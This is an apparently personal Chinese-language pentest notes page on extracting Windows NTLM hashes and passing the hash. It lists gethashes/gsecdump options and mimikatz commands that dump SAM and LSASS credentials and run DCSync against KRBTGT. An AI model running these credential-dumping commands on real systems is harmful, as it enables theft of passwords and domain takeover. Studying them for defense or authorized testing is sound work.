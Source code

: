 ### 【windows中的hash】

* **提取NTML hash**
  * （1）SAM文件位置
    window中加密后的hash密码存储在SAM文件中
    >windowNT 4.0 sp3后SAM文件被加密，密码分为两种LM和NTLM，但是由于加密过于薄弱，在window vista 和window server 2008后被默认不启用
    >2012server版本以及之前的版本，可以从内存中读取管理员明文密码，2012以后需要修改注册表后再可以读取内存

    SAM文件在c:\Windows\system32\config\sam
    
  * （2）gethashes提取hash
    需要管理员权限方可执行读取hash操作
    ```cmd
    gethashes.exe  $local
    ```
    gsecdump
    -h  显示帮助
    -a  获取所有密码信息
    -s 从sam文件和域控中获取hash值
    -u 获取当前登录用户的hash
    -w  获取无线密码
  

  * （3）使用mimikatz提取NTML hash
    mimikatz原理：
    使用sekurlsa模块读取LSASS进程的内存，获取用户hash
    >LSASS（Local Security Authority Subsystem）管理用户hash以及认证信息

    使用条件：
    开启SeDebugPrivilege，这个设置可以使我们debug不属于我们的进程
    ```bash
    mimikatz# privilege::debug  开启SeDebugPrivilege权限
    mimikatz# token::elevate 获取system权限token
    mimikatz# lsadump::sam 读取SAM中的用户凭证
    
    抓取hash
    mimikatz# sekurlsa::logonpasswords   //获取当前在线用户的明文密码（需要高权限运行）
    mimikatz# lsadump::lsa /patch   //获取当前此计算机存在过用户的NTLMHASH
    
    mimikatz的其他命令
    mimikatz# lsadump::sam SYSTEM.hiv //导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份
    
    通过内存文件获取口令
    mimikatz# sekurlsa::minidump lsass.dmp
    mimikatz# sekurlsa::logonPasswords full
    拉取 rd.adsecurity.org 域中的 KRBTGT 用户帐户的密码数据
    mimikatz# lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt
    拉取 lab.adsecurity.org 域中 ADSDC03 域控制器的计算机帐户的密码数据
    mimikatz# lsadump::dcsync /domain:lab.adsecurity.org /user:adsdc03$
    
    ```
  
* **pass-the-hash PtH**
  有些时候破解hash时间过于长，所以选择pass the hash方法，即登录使用NTML hash，不使用帐号密码
  此外，如果我们在一个目标上发现一个hash，我们不仅可以使用它来对该目标进行身份验证，还可以对另一个目标进行身份验证，只要第二个目标具有具有相同用户名和密码的帐户。
  >自 WindowsVista 以来，所有 Windows 版本都默认启用了 UAC 远程限制1。这会阻止软件或命令在远程系统上使用管理权限运行。
  